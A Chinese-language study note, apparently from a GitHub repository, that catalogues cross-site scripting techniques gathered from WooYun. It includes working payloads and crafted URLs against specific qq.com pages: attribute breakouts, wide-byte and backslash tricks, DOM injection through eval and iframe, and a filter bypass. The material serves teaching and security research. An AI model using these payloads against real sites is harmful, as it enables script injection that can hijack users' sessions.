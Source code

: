 #XSS 分类

#### 整理自乌云

- 什么都没过滤的情况
- 输出在`<script><script/>`之间的

    `new Image().src="..."` 或者 `<script>alert(1)</script>`

- 输出在html里的

    `http://xxx.com/search?word=hehe`

    ```html
    <input type="text" value="hehe">
    ```

    修改为 `http://xxx.com/search?word=hehe" onclick="alert(1)`

    则变成
    ```html
    <input type="text" value="hehe" onclick="alert(1)">
    ```

- 宽字节注入

    URL 编码简介
    
    | sp  | "   |  '  |  ,  |  ;  |  <  |  >  |  ?  |  [  |
    | --- | --- | --- | --- | --- | --- | --- | --- | --- |
    | %20 | %22 | %27 | %2C | %3B | %3C | %3E | %3F | %5B |


    |  ]  |  {  |  o  |  }  | 
    | --- | --- | --- | --- |
    | %5D | %7B | %7C | %7D |

    | newline |    [   |    ]   |  &#124; |
    | ------- | ------ | ------ | ------- |
    |  space  | \&#91; | \&#93; | \&#124; |

    
    `http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%22;alert(1);//aaaaaa`
    中 `%22` 代表 `"`, 但是最后被过滤为 `&quot;`：
    ```js
    var gsTest = "&quot;;alert(1);//aaaaaa";
    ```
    预想效果:
    ```js
    var gsTest = "";alert(1);//aaaaaa";
    ```

    当html为gbxxxx系列编码时，改为如下:
    
    `http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%c0%22;alert(1);//aaaaaa`
    
    效果： 
    ```js
    var gsTest= "宽";alert(1);//aaaaaa
    ```
    我试了在console里试了` decodeURI('%C0%5C') `等各种组合还是不明白真相...

    作者解释：至于这个漏洞的成因，和传统的宽字节漏洞并不一样。目测应该是由于过滤双引号的正则表达式写得有问题造成的。
    并不是因为%22变成了 %5c%22,而 %c0吃掉了后面的%5c （怎么吃的啊T^T）

- 反斜杠

    ```js
    location.href="........."+"&ss=aaaa"+"&from=bbb"+"&param=";//comment
    ```
    可以用反斜杠 `\` 杀死 `"`，改成
    ```js
    location.href="........."+"&ss=aaaa\"+"&from=1//"+"&param=";
    ```
    问题： "字符串"&from=1，这样是错误的，因为&符号的优先级高， ("字符串"&from)=1 是无法进行这种赋值操作，继续修改 
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1//"+"&param=";
    ```
    问题： from未定义，加一个函数定义（js会先解析定义），继续修改
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1;function from(){}//"+"&param=";
    ```
    问题： 空格被转义为了 `&nbsp;`， /**/替换空格，继续修改 
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1;alert(1);function/**/from(){}//"+"&param=";
    ```

- 换行符

    ` %0a ` 代表html中的换行，达到如下效果：
    ```js
    //我是注释，我爱洗澡，哦～哦～哦～ [我是输出]
    ```
    变成
    ```js
    //我是注释，我爱洗澡，哦～哦～哦～ [我是输出  换行符
    alert(1);//我是输出]
    ```

- DOM XSS 显示输出
    ```js
    document.getElementById('test').innerHTML = "<img src=1>";
    document.write('....');
    $('.class-name').html('...');
    ```
    `innerHTML = <script>alert(1)</script>`无法触发，只能用`<img>`
    JS的字符串中的字符可以写为 unicode编码。
    如： `<` 可以表示为 `\u003c` , `>` 可以表示为 `\u003e`
    ```js
    document.getElementById("a").innerHTML="\u003cimg src=1\u003e";
    ```
    在JS字符串里， < 不光可以写为 \u003c，还可以写为 \x3c， > 同样可以写为 \x3e, 是16进制编码

- DOM XSS 隐式输出
    ```html
    <object><param name="movie" value="aaaaa">
    ```
    `http://qt.qq.com/video/play_video.htm?sid=aaaaaa"></object><img src="1" onerror="alert(1)`

    通过隐式闭合标签进行注入，插入诸如`<img>`标签
    ```html
    <object><param name="movie" value="aaaaa"></object><img src="1" onerror="alert(1)">
    ```
    
    由于chrome已经过滤了`< >`两个符号，所以js代码过滤的是encode后的字符，相当于没过滤
    `decodeURIComponent` 的操作，会将 `%3c`, `%3e`，又变回 `<`, `>`
    
    也可以构造URL如 `http://qt.qq.com/video/play_video.htm?sid=aaaaaa%22%3E%3C/object%3E%3Cimg%20src=1%20onerror=alert(1)%3E` 以达到目的

- DOM XSS eval函数

    先看这个url: `http://kf.qq.com/search_app.shtml?key=aaaaa`
    通过在url后面加非法字符 `\` 构造 `http://http://kf.qq.com/search_app.shtml?key=aaaaa\`
    然后从控制台定位到错误代码，发现下面这段js
    ```js
    var getarg = function() {
        var url = window.location.href;
        var allargs = url.split("?")[1]; // 获得key=aaaa
        if (allargs!=null && allargs.indexOf("=")>0) {
            var args = allargs.split("&"); // 多arguments情况
            for(var i=0; i<args.length; i++) {
                var arg = args[i].split("=");
                eval('this.'+arg[0]+'="'+arg[1]+'";'); // 直接用了this调用key
                // 然后可以在页面里执行
            }
        }
    };
    ```
    通过加分号断句，让自己的xss执行，那么可以把`this.key="aaaaa";` 变成 `this.key;alert(1);//="asdas"`
    让 `arg[0]` 变成 `key;alert(1);//`，把后面的用注释断句
    构造url: `http://kf.qq.com/search_app.shtml?key;alert(1);//=aaaaa`

    chrome中 `"` 会变成 `%22` 而失效

- DOM XSS iframe

    有时候，输出还会出现在 <iframe src="[输出]"></iframe> 。
    iframe 的 src属性本来应该是一个网址，但是iframe之善变，使得它同样可以执行javascript，
    而且可以用不同的姿势来执行。这一类问题，我将其归为[路径可控]问题。
    当然上面说到的是普通的反射型XSS。有时候程序员会使用javascript来动态的改变iframe的src属性，譬如：iframeA.src="[可控的url]"; 同样会导致XSS问题

    - onload执行js
    ```html
    <iframe onload="alert(1)"></iframe>
    ```
    - src执行js
    ```html
    <iframe src="javascript:alert(1)"></iframe>
    ```
    - chrome下data协议执行代码
    ```html
    <iframe src="data:text/html,<script>alert(1)</script>"></iframe>
    ```
    - chrome下srcdoc属性，变体
    ```html
    <iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
    ```
- DOM XSS 路径

    一些程序员会动态的加载json数据，同域的时候，可以使用ajax；而有时候，数据所在域和当前页面所在域又不一致。所以需要跨域请求。跨域请求数据的手段中，有一种叫做jsonp。

    用代码表示的话，就是
    `somescript.src="http://otherdomain.com/xx?jsonp=callback"`

    某些时候，程序员会在调用外部数据的时候带上可控的参数。

    `somescript.src="http://otherdomain.com/xx?jsonp=callback&id="+id;`

    如果这个id我们可控，将可能带来XSS问题

    1. `script src="完全可控"` ,这种就简单了，直接将地址换为我们的JS地址
    2. `script src="/path/xxx/[路径可控]/1.js"`

- XSS 过滤器绕过
    
    `<img src=1 onerror=alert(1)>` 被和谐为 `<img src=1 onerror>`
    改为 <script src=data:,alert(1)<!--

- 存储型 XSS

    可以套现的各种XSS技巧，HTML标签
    [HTML5 Security Cheatsheet](http://html5sec.org/)